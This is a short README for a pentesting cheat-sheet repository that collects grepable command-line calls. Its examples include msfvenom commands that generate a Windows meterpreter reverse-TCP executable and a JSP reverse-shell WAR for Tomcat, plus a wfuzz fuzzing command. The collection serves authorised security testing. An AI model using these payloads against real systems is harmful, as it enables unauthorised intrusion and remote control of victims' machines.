 # Pentesting CLI Call Collection # 

A single grepable file, that contains lots of prototype like CLI calls, of the most common pentesting tools.
Spend less time with man pages ;)

## Exmaple
You can grep the call collection via the `qccc` script:
```bash
qccc msfvenom
# msfvenom generate meterpreter with file format exe for windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe
# msfvenom generate java tcp reverse shell with file format war for tomcat deployment
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war
```

Or grep the call collecction manually:
```bash
grep -i wfuzz cli-call-collection.txt 
# wfuzz fuzz a get parameter with; -f out file; --hw hide response with word count; --hh hide response with character count; --hc <code> hide responsecode <code>
wfuzz --hw <word-count> -f <out-file> -w <wordlist> 'https://target.url?param1=FUZZ&param2=42'
```
